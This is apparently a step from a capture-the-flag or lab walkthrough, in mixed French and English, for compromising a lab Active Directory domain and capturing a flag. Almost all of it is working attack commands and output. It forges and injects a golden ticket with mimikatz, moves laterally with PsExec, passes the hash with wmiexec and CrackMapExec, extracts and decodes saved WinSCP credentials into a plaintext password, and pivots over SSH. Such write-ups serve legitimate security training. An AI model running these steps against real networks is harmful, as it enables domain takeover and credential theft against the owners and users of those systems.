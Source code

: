 # Step 9

## golden ticket

* get domain sid

```powershell
Get-ADDomain
```

* craft le golden ticket

```powershell
.\mimikatz.exe

privilege::debug

kerberos::golden /user:Administrator /domain:factory.lan /sid:3c68c509b487662c87ced8ebcda6e69b /krbtgt:3c68c509b487662c87ced8ebcda6e69b /ticket:factory.lan.kirbi
```

* load le ticket

```powershell
.\mimikatz.exe

privilege::debug

kerberos::ptt factory.lan.ticket
```

## kirbi to ccache

* dans kekeo 

```powershell
misc::convert ccache factory.lan.kirbi
```

## connection to 172.16.42.101

dans le bloodhound on voit une autre machine: pc01-dev.factory.lan, quand on l'a ping ça redirige bien sur la 101, donc aevec le golden ticket :

```powershell
PsExec.exe \\pc01-dev.factory.lan cmd.exe
```

apres avoir enum un peu les fichiers et les dossier, on voit deux users :

- adminWorkstation
- Marina

adminWorkstation est dans le ntds.dit, donc un utilisateur du domaine. Utilisateur avec lequel il est possible de pop un shell.

* wimexec en pass the hash

```bash
/usr/share/doc/python-impacket/examples/wmiexec.py adminWorkstation@172.16.42.101 -hashes aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d
```

* cme pth

```bash
(CrackMapExec-0pwsdAYT) ➜  CrackMapExec git:(master) cme smb 172.16.42.101 -u 'adminWorkstation' -H 'aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d' -d 'FACTORY'

SMB         172.16.42.101   445    PC01-DEV         [*] Windows 10.0 Build 18362 x64 (name:PC01-DEV) (domain:FACTORY) (signing:False) (SMBv1:False)
SMB         172.16.42.101   445    PC01-DEV         [+] FACTORY\adminWorkstation aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d (Pwn3d!)

```

## info winscp

```bash
root@arcardia:/opt/t/CrackMapExec# /usr/share/doc/python-impacket/examples/wmiexec.py adminWorkstation@172.16.42.101 -hashes aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Configuration
HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions

C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\Default%20Settings
HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78

C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78
    HostName    REG_SZ    172.16.69.78
    UserName    REG_SZ    veruca
    Password    REG_SZ    A35C4356079A1F0870112F60D87D2A392E293F3D6D6B6E726D6A726A65726B641F29353535350519196F2E6F7DEB849B0EDE

```

* decoded creds 

> https://github.com/anoopengineer/winscppasswd/releases

```powershell
.\winscppasswd 172.16.69.78 veruca A35C4356079A1F0870112F60D87D2A392E293F3D6D6B6E726D6A726A65726B641F29353535350519196F2E6F7DEB849B0EDE

CuiiiiYEE3r3!
```

* trouver le binaire de winscp

```powershell
type C:\Users\adminWorkstation\Desktop\WinSCP.lnk

map the result with https://docs.python.org/2.4/lib/standard-encodings.html
and then execute wmiexec.py again with -codec and the corresponding codec
L�F� Ӭ��C)�0ĞD)�q�i�а/{P�O� �:i�+00�/C:\�1�NӭPROGRA~2�	�sN�&�Nӭ.XV��GProgram Files (x86)@shell32.dll,-21817T1�NԭWinSCP>	��Nӭ�Nխ.��'�fWinSCP`2а/�Nc� WinSCP.exeF	��Nӭ�Nԭ.��WinSCP.exe�W-Vρ`�C:\Program Files (x86)\WinSCP\WinSCP.exe(WinSCP: SFTP, FTP, WebDAV and SCP client...\..\..\Program Files (x86)\WinSCP\WinSCP.exeC:\Program Files (x86)\WinSCP�*�
```

> C:\Program Files (x86)\WinSCP\WinSCP.exe

## add route to connect to srv01

```bash
sudo ip route add 172.16.69.0/24 via 10.8.0.25 dev tun0
```

* connection as veruca

```bash
ssh veruca@172.16.69.78
```

## Flag

> 83907d64b336c599b35132458f7697c4eb0de26635b9616ddafb8c53d5486ac2

